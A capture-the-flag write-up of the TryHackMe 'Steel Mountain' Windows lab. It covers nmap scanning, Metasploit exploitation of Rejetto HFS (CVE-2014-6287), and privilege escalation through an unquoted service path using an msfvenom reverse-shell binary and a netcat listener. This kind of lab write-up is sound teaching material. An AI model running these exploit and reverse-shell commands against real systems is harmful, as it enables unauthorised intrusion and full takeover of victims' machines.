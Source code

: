 ```yaml
---
title: Tryhackme Steel Mountaing CTF Writeup
author: krygennn
date: 2021-10-9 00:59
categories: [Blogging,cyber-security,tryhackme]
image:
    src: /assets/img/posts/tryhackme-steel-mountain-ctf-writeup/1.jpg
    alt: TRYHACKME STEEL MOUNTAIN
tags: [ctf,pentesting,remote-code-execution,windows-privesc,powershell,metasploit,unqoted-service-path]
---
```

[**Solve Yourself >>**](https://tryhackme.com/room/steelmountain)


The steel mountain is a windows machine. In order to hack into the machine, we are going to exploit  two different 
vulnerabilities that occur on the system.

# FIRST METHOD
## 1-Preperation
Export the ip address of the machine as a variable for shorthand usage.
<br>-> `export ip={MACHINE IP}`
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/2.jpg){:.normal}

## 2-Enumeration 
Let us run Network Mapper (**nmap**) to discover opened ports and services.   

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-sV                     | Probe open ports to determine service/version info     |
|-sS                     | SYN, half TCP scan                                     |
|-O                      | Enable OS detection                                    |
|-T4                     | T{0-5} Set scan speed, higher is faster                |
|-p-                     | Scan all 65536 ports                                   |
|-Pn                     | Skip host discovery                                    |
|-oN                     | Write output to a file                                 |

Full command : `nmap -sV -sS -O -T4 -p- {machine IP} -Pn -oN {outputfile}`
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/3.jpg){:.normal}<br><br>
There is a web server running on port **80**, let us visit.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/4.jpg){:.normal}<br><br>
There is also one more web server is running at port **8080**
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/5.jpg){:.normal}<br><br>
If you click on the **HttpFileServer2.3** link under the **Server Information** heading, it will redirect you to the following page.
It seems the HTTP server is being run by **rejetto**.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/6.jpg){:.normal}<br><br>
There is a vulnerablity on the **Rejetto HFS versions 2.3, 2.3a, and 2.3b**, let's check.<br>
[**CVE-Database -> Rejetto HFS 2.3**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287)
<br>[**More detailed explaination**](https://www.kb.cert.org/vuls/id/251276)
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/7.jpg){:.normal}<br><br>

## 3-Exploitation

### Gaining Access to the System - Getting User Flag
Launch up your **msfconsole** and do a search for **CVE-2014-6287** to see if there is any exploit that we can use.
There is one with an excellent rank, awesome! Let us use it.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/8.jpg){:.normal}<br><br>
Copy the THM IP with that command: `ifconfig | grep -C 1 tun0 | tail -n 1 | awk '{print $2}'`
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/9.jpg){:.normal}<br><br>
-> set RPORT `8080`<br>-> set RHOST `machine IP`<br>-> set LHOST `your THM IP`<br>-> exploit

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|RPORT                   | The target port (TCP)                                  |
|RHOST                   | Address of the target                                  |
|LPORT                   | The listen port                                        |

![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/10.jpg){:.normal}<br><br>
After receiving meterpreter session, run `shell` to get an interactive shell.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/11.jpg){:.normal}<br><br>
Find the flag under **C:\users\bill\Desktop** directory.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/12.jpg){:.normal}<br><br>

### Escalate the privileges - Getting the Root flag

After gaining access to the system as a low-level user, it is time to get administrator privileges to have much more 
permissions against the system. **PowerUp.ps1** is a program that facilitates fast checks in a windows machine to identify 
any misconfigurations and privilege escalation possibilities.
<br>-> [**Download PowerUp.ps1**](../../assets/documents/tryhackme-steel-mountain-writeup/PowerUp.ps1)
<br>-> Run `exit` and get back to the **meterpreter** session.
<br>-> Upload the script just as we did before to the machine.
<br>-> Run `load powershell`
<br>-> Run `powershell_shell`
<br>You will get **PowerShell** this time instead of a regular **cmd prompt**.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/13.jpg){:.normal}<br><br>
<br>-> Run `. .\PowerUp.ps1`
<br>-> Run `Invoke-AllChecks`
<br>**InvokeAllChecks** will diagnose any detectable vulnerabilities along with their descriptions.
<br><br>The first result we got is a service called **AdvancedSystemCare9**, and it has a vulnerability called 
**Unquoted Service Path** [**-> Read more about it**](). We will abuse this vulnerability. 
<br>**CanRestart** field means that the current user, in this case, **bill**, can manually restart the service even though
the service itself is being run with **LocalSystem** service account permissions, which has the top-level privileges.
<br>[**LocalSystem Service Account**](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN)
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/14.jpg){:.normal}<br><br>

Launch up **msfvenom** to deploy a reverse shell binary. 

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|LHOST                   | The IP address that the reverse shell will connect     |
|LPORT                   | The port that the reverse shell will connect           |
|-p                      | Payload to use                                         |
|-o                      | Name of the file                                       |
|-f                      | File type of the output binary                         |

Full command -> <br>`msfvenom -p windows/shell_reverse_tcp LHOST={THM IP} LPORT={RANDOM FREE PORT} -f exe -o {somename}.exe`
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/15.jpg){:.normal}<br><br>

-> Upload the binary to the target machine.
<br>-> Get the `shell` again.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/16.jpg){:.normal}<br><br>

-> Relocate the binary into **C:\Program Files (x86)\IObit** directory.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/17.jpg){:.normal}<br><br>

-> Rename the binary to **Advanced.exe**.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/18.jpg){:.normal}<br><br>

Start a **netcat** listener on your machine with the port that is defined when creating
the backdoor.
<br>-> `nc -nvlp {SPECIFIED PORT}`
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/nc.jpg){:.normal}<br><br>

After starting a netcat session, restart the service
<br>-> `sc stop AdvancedSystemCareService9`
<br>-> `sc start AdvancedSystemCareService9`
<br>When the service boots, **Advanced.exe** backdoor binary will be executed instead of the **ASCService.exe**. 
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/19.jpg){:.normal}<br><br>
You can find the root flag **root.txt** under **C:\Users\Administrator\Desktop** directory.

# SECOND METHOD

In this section, instead of using Metasploit and automatizing the process, we will be doing all those steps manually.
<br> To be continued ...
